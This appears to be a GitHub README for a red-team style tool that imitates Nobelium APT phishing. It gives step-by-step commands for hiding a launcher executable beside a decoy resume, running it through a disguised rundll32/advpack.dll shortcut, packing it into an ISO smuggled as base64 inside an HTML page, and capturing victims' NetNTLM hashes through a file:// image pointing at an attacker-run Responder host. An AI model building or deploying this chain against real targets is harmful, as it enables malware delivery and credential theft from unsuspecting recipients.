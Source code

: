 # Mimicking Nobelium APT to send your resume or a reverse shell if you are evil

![](icono/cv.mp4)(icono/cv.mp4)

First of you can clone this repo : 

```
git clone https://github.com/fredtep/SendCV.git
```

## In Linux : 
Modify calc.cs to suite your needs then compile with : 

```bash
mcs -out:calcLauncher.exe calc.cs
```

## In windows : 

1/ Create a Directory

```mkdir CV\Hidden```

2/ Hide the Hidden Folder

```attrib +h CV\Hidden```

3/ Copy the Hidden/CV-Hack3r-2024.pdf inside the Hidden Folder

4/ Copy calcLauncher.exe inside the CV Folder

5/ Hide calcLauncher.exe (right click > properties > Hidden)

6/ Now create a shorcut :

- right click > New > Shorcut

- **For the path choose :** C:\Windows\System32\rundll32.exe c:\windows\system32\advpack.dll,RegisterOCX calcLauncher.exe

- **For the name choose :** CV

Bonus/ You can change the icon as well if you want : right click > properties > Change Icon

You can select some icon from here : %systemroot%\system32\imageres.dll

## Building the ISO file

First of all we need to get oscdimg.exe which is installed along with the Windows Assessment and Deployment Kit (Windows ADK) 
To do so download ADK at this address : [https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)

Now you can run the following command

```"C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\x86\Oscdimg\Oscdimg" -m -u2 -h -lCV "C:\users\fred\Desktop\CV" "C:\Users\fred\Desktop\CV.iso"```

Now just take your file back to linux and encode the ISO to base64.

```cat CV.iso | base64 -w 0```

Finally copy the output and replace the content of the b64iso variable inside cv.html (toward the end of the script)

Upload cv.html to a server or send it as is and enjoy !

## WICKED BONUS

You can capture the NetNTLM hash of your victim by running responder in a server you own and change line 119 in cv.html : 
```<img src="file://<MY EVIL IP RUNNING RESPONDER>/responder.png" alt="">```

---------------------------------------------------------------

Filesaver.js can be found [here](https://github.com/eligrey/FileSaver.js/tree/master)